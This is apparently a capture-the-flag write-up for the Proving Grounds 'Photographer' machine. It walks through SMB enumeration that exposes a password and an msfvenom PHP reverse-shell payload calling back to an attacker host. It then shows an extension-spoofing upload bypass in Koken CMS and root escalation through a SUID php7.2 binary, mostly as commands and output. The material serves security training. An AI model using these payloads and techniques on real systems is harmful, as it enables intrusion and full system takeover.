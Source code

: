 - browsed on a browser, gets webpage confirming its a webserver
- checked robots.txt, source code, not found
- Did a service enumeration
```
nmap -sV 192.168.108.76
```

```
- service ports enumeration Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8000/tcp open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
Service Info: Host: PHOTOGRAPHER; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- Two **http** ports found, browsed to **port 8000** and found a Koken admin login
- Also samba services were also found to be running.
### Exploiting samba
- https://docs.centrify.com/Content/zint-samba/ConfigurationUNIXAccess.htm
- https://medium.com/@nmappn/exploiting-smb-samba-without-metasploit-series-1-b34291bbfd63
- connecting to a samba client:
	smbclient -k -L hostname (list info abou samba and smbclient)

-  Use SMB CLient to check for anonymous access
		-N -- no pass
		-L -- list

```
	WORKGROUP            PHOTOGRAPHER
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$ smbclient -N -L //192.168.108.76

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	sambashare      Disk      Samba on Ubuntu
	IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            PHOTOGRAPHER
```

- Check workgroups you can access without passwd:
		-H --host
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$ smbmap -H 192.168.108.76
[+] Guest session   	IP: 192.168.108.76:445	Name: 192.168.108.76                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	sambashare                                        	READ ONLY	Samba on Ubuntu
	IPC$                                              	NO ACCESS	IPC Service (photographer server (Samba, Ubuntu))
```
- We have read access to sambashare, so accesss it through smbclient:
	```
	smbclient -N //192.168.108.76/sambashare
	```
- Output
```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$ smbclient -N //192.168.108.76/sambashare
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Aug 20 18:51:08 2020
  ..                                  D        0  Thu Aug 20 19:08:59 2020
  mailsent.txt                        N      503  Tue Jul 21 04:29:40 2020
  wordpress.bkp.zip                   N 13930308  Tue Jul 21 04:22:23 2020

		3300080 blocks of size 1024. 2958792 blocks available
smb: \> more mailsent.txt
getting file \mailsent.txt of size 503 as /tmp/smbmore.QPUKEq (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \> nc
nc: command not found
smb: \> zip
zip: command not found
smb: \> unzip
unzip: command not found
smb: \> get mailsent.txt
getting file \mailsent.txt of size 503 as mailsent.txt (0.8 KiloBytes/sec) (average 0.8 KiloBytes/sec)
smb: \> get wordpress.bkp.zip
parallel_read returned NT_STATUS_IO_TIMEOUT
smb: \> getting file \wordpress.bkp.zip of size 13930308 as wordpress.bkp.zip SMBecho failed (NT_STATUS_CONNECTION_DISCONNECTED). The connection is disconnected now
```

- Dowload the two files using:
get [local-file-name]  -	Copy the file called remote-file-name from the server to the machine running the client. If specified, name the local copy local-file-name. Note that all transfers in smbclient are binary. See also the lowercase command
i.e.
```
get mailsent.txt
```


```
cat mailsent.txt
```

```
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$ more mailsent.txt
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
festus@boynamedboy:~/Desktop/CTF/Proving Grounds$
```

- We have the email of the one who's website was built: **daisa@photographer.com** while the password from mailsent.txt
as **babygirl**

- Create a php reverse tcp shell with msfvenom:
```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.49.156 LPORT=4445 -f raw -o shell.php
```
- Rename **image.php** to **image.php.jpg** to trick the UI into uploading the shell

```
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.49.156
set LPORT 4445
exploit

```

- On Koken cms dashboard, import the image.
- Intercept, request via burp and rename the uploading file from **image.php.jpg** to **image.php**, then upload the file.
- On Koken cms library, select the file and put the mouse on "Download File" to see where file is hosted on server

- Once uploaded, visit the site from user side and click on timeline to check recently uploaded images,
then finally check in msfvenom if a session was created.
- If done correctly, a session was created, type shell to gain a shell;

```
meterpreter>
meterpreter>shell
```
- system runs python3, so we can spawn a shell:
```
meterpreter>shell
ls
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$
```
- We can finally exploit it:
```
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$ ls
ls
image.php
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$ ls /home/daima
<www/html/koken/storage/originals/69/fa$ ls /home/daima                      
ls: cannot access '/home/daima': No such file or directory
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$ cd
cd
bash: cd: HOME not set
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$ ls /home
ls /home
agi  daisa  lost+found
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$ ls /home/daisa
<www/html/koken/storage/originals/69/fa$ ls /home/daisa                      
Desktop    Downloads  Pictures	Templates  examples.desktop  user.txt
Documents  Music      Public	Videos	   local.txt
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$ cat /home/daisa/user.txt
<www/html/koken/storage/originals/69/fa$ cat /home/daisa/user.txt            
This is not the flag you're looking for...
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$ cat /home/daisa/local.txt
<www/html/koken/storage/originals/69/fa$ cat /home/daisa/local.txt           
58b12beadc9f84725fa834bfaf8b029b
```
- Trying to view home directory pops nothing, so we check for files with suid bits set and we find php7.2 is among them from which we use it to priv escalate
```
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$ find / -perm -u=s -type f 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/php7.2
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/bin/ping
/bin/fusermount
/bin/mount
/bin/ping6
/bin/umount
/bin/su
```
- We then use php7.2 to priv escalate:
```
www-data@photographer:/var/www/html/koken/storage/originals/69/fa$ /usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"
<ginals/69/fa$ /usr/bin/php7.2 -r "pcntl_exec('/bin/bash', ['-p']);"         
bash-4.3# whoami
whoami
root
bash-4.3# whoami
whoami
root
bash-4.3# ls /root
ls /root
proof.txt
bash-4.3# cat /root/proof.txt
cat /root/proof.txt
0ecf43ae4a8d2bf476944a10cac070ee
bash-4.3#
```
